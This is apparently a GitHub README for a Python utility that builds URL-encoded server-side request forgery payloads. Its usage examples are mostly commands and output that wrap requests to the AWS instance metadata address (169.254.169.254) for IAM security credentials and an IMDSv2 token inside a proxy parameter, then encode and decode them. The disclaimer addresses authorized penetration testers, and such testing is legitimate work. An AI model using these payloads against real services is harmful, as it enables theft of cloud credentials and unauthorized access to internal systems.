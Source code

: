 # SSRF URL Encoder
ssrf-url-encoder is a Python-based utility designed to construct URL-encoded payloads for SSRF exploitation. It allows users to single encode, recursively decode, and construct complex SSRF payloads with custom proxy endpoints, HTTP methods, and headers.

## Features
- Construct SSRF payloads with custom proxy endpoints.
- Single encode or recursively decode URLs.
- Embed HTTP methods and headers into the payload structure.
- Save encoded payloads to a file for reuse.
- Verbose mode for step-by-step output.

## Usage
```bash
python3 ssrf-url-encoder.py --target <TARGET_URL> --proxy <PROXY_URL> [--method <METHOD_KEY=VALUE>] [--headers <HEADERS_KEY=VALUE>] [--single] [--decode] [--output <OUTPUT_FILE>] [--verbose]
```

## Arguments:
- `--target` (required): Target URL to encode or decode.
- `--proxy`: Proxy endpoint with parameter key, e.g., `?url=` or `?target=`.
- `--method`: Optional method parameter as key=value, e.g., 'method=GET'
                     or 'method=PUT'.
- `--headers`: Optional headers parameter as key=value, e.g.,
                     'headers=X-aws-ec2-metadata-token-ttl-seconds=21600'.
- `--single`: Single encode the target URL only.
- `--decode`: Recursively decode the target URL.
- `--output`: Save the encoded or decoded payload to a file.
- `--verbose`: Display step-by-step output for debugging.

## Output Examples
**1. Constructing SSRF Payload with Method and Headers**
```bash
python3 ssrf-url-encoder.py --target http://169.254.169.254/latest/meta-data/iam/security-credentials/example-role --proxy 'http://127.0.0.1:10000/example-api-proxy/?url=' --method method=GET --headers 'headers={"X-aws-ec2-metadata-token":"AQAEAIZ2Xm9LEU9CHnA-riXpyF1pKt83STDxhCPCCrw224gEXAMPLE=="}' --verbose --output encoded_payload.txt      
[+] Payload saved to: encoded_payload.txt
[INFO] Target URL encoded once: http%3A%2F%2F169.254.169.254%2Flatest%2Fmeta-data%2Fiam%2Fsecurity-credentials%2Fexample-role
[INFO] Proxy URL constructed: http%3A%2F%2F127.0.0.1%3A10000%2Fexample-api-proxy%2F%3Furl%3Dhttp%253A%252F%252F169.254.169.254%252Flatest%252Fmeta-data%252Fiam%252Fsecurity-credentials%252Fexample-role%26method%3DGET%26headers%3D%7B%22X-aws-ec2-metadata-token%22%3A%22AQAEAIZ2Xm9LEU9CHnA-riXpyF1pKt83STDxhCPCCrw224gEXAMPLE%3D%3D%22%7D
[INFO] Final single encoded payload: http%3A%2F%2F127.0.0.1%3A10000%2Fexample-api-proxy%2F%3Furl%3Dhttp%253A%252F%252F169.254.169.254%252Flatest%252Fmeta-data%252Fiam%252Fsecurity-credentials%252Fexample-role%26method%3DGET%26headers%3D%7B%22X-aws-ec2-metadata-token%22%3A%22AQAEAIZ2Xm9LEU9CHnA-riXpyF1pKt83STDxhCPCCrw224gEXAMPLE%3D%3D%22%7D
```
```
cat encoded_payload.txt 
http%3A%2F%2F127.0.0.1%3A10000%2Fexample-api-proxy%2F%3Furl%3Dhttp%253A%252F%252F169.254.169.254%252Flatest%252Fmeta-data%252Fiam%252Fsecurity-credentials%252Fexample-role%26method%3DGET%26headers%3D%7B%22X-aws-ec2-metadata-token%22%3A%22AQAEAIZ2Xm9LEU9CHnA-riXpyF1pKt83STDxhCPCCrw224gEXAMPLE%3D%3D%22%7D
```

**2. Recursive Decoding of URL**
```bash
python3 ssrf-url-encoder.py --target http%3A%2F%2F127.0.0.1%3A10000%2Fexample-api-proxy%2F%3Furl%3Dhttp%253A%252F%252F169.254.169.254%252Flatest%252Fmeta-data%252Fiam%252Fsecurity-credentials%252Fexample-role%26method%3DGET%26headers%3D%7B%22X-aws-ec2-metadata-token%22%3A%22AQAEAIZ2Xm9LEU9CHnA-riXpyF1pKt83STDxhCPCCrw224gEXAMPLE%3D%3D%22%7D --decode
http://127.0.0.1:10000/example-api-proxy/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/example-role&method=GET&headers={"X-aws-ec2-metadata-token":"AQAEAIZ2Xm9LEU9CHnA-riXpyF1pKt83STDxhCPCCrw224gEXAMPLE=="}
```

**3. Single Encode a URL**
```bash
--target http://169.254.169.254/latest/api/token --single
http%3A%2F%2F169.254.169.254%2Flatest%2Fapi%2Ftoken
```

## Contributing
If you have an idea for improvement or wish to collaborate, feel free to contribute.

## Disclaimer
Use responsibly. This tool is intended for red teamers, security auditors, and penetration testers with proper authorization.
